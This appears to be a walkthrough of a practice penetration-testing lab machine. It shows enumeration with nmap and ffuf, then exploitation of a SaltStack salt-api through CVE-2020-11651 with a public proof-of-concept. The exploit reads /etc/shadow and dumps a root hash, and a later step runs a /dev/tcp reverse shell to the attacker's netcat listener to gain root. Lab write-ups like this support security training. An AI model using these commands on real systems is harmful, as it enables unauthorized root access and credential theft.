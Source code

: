 No credentials were provided for this machine

nmap -vvv -T5 -Pn 192.168.224.62 -p- -A -oN nmap.txt

sudo echo "192.168.224.62 twiggy.pg" | sudo tee -a /etc/hosts

http://twiggy.pg/
view-source:http://twiggy.pg/

http://twiggy.pg/admin/login/?next=/admin/

Mezzanine
http://mezzanine.jupo.org/docs/content-architecture.html

mezzanine jupo github

https://github.com/stephenmcd/mezzanine

mezzanine cms default credentials

mezzanine cms exploit github

https://nvd.nist.gov/vuln/detail/CVE-2025-6050

http://twiggy.pg/static/media/uploads/

ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://twiggy.pg/FUZZ

ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://twiggy.pg/static/media/uploads/FUZZ

ffuf -w /usr/share/seclists/Discovery/DNS/combined_subdomains.txt -H "Host: FUZZ.twiggy.pg" -u http://twiggy.pg/ -fs 6927

http://twiggy.pg:8000/

{"clients": ["local", "local_async", "local_batch", "local_subset", "runner", "runner_async", "ssh", "wheel", "wheel_async"], "return": "Welcome"}

curl -i 192.168.224.62:8000

X-Upstream: salt-api/3000-1

https://www.google.com/search?client=firefox-b-e&channel=entpr&q={"clients"%3A+["local"%2C+"local_async"%2C+"local_batch"%2C+"local_subset"%2C+"runner"%2C+"runner_async"%2C+"ssh"%2C+"wheel"%2C+"wheel_async"]%2C+"return"%3A+"Welcome"}

https://github.com/vmware-archive/salt-api/issues/180

https://www.exploit-db.com/exploits/48421

CVE : CVE-2020-11651 and CVE-2020-11652

https://github.com/jasperla/CVE-2020-11651-poc

┌──(lepotekil㉿kali)-[~/proving-ground-prac/twiggy]
└─$ sudo python3 exploit.py --master 192.168.224.62 -r /etc/shadow
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
[+] Checking salt-master (192.168.224.62:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... YES
[*] root key obtained: MM+k7kuD8qK7uY/FCqn+L+gPc6ScqcoJBfVShUUA3KGay3i/woG7skNXpMmON4009lLtSZ9DRlk=
[+] Attemping to read /etc/shadow from 192.168.224.62
root:$6$WT0RuvyM$WIZ6pBFcP7G4pz/jRYY/LBsdyFGIiP3SLl0p32mysET9sBMeNkDXXq52becLp69Q/Uaiu8H0GxQ31XjA8zImo/:18400:0:99999:7:::
...

4444, and other doesn't work, only openned port work.

┌──(lepotekil㉿kali)-[~/proving-ground-prac/twiggy]
└─$ sudo python3 exploit.py --master 192.168.224.62 --exec "sh -i >& /dev/tcp/192.168.45.170/4505 0>&1"
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
[+] Checking salt-master (192.168.224.62:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... YES
[*] root key obtained: MM+k7kuD8qK7uY/FCqn+L+gPc6ScqcoJBfVShUUA3KGay3i/woG7skNXpMmON4009lLtSZ9DRlk=
[+] Attemping to execute sh -i >& /dev/tcp/192.168.45.170/4505 0>&1 on 192.168.224.62
[+] Successfully scheduled job: 20251017191045944538

┌──(lepotekil㉿kali)-[~/proving-ground-prac/twiggy]
└─$ nc -lvnp 4505
listening on [any] 4505 ...
connect to [192.168.45.170] from (UNKNOWN) [192.168.224.62] 37298
sh: no job control in this shell
sh-4.2# ls
ls
proof.txt
sh-4.2# cat proof.txt
cat proof.txt
02ec21c1d272dd25558f5c91877b56de
sh-4.2#
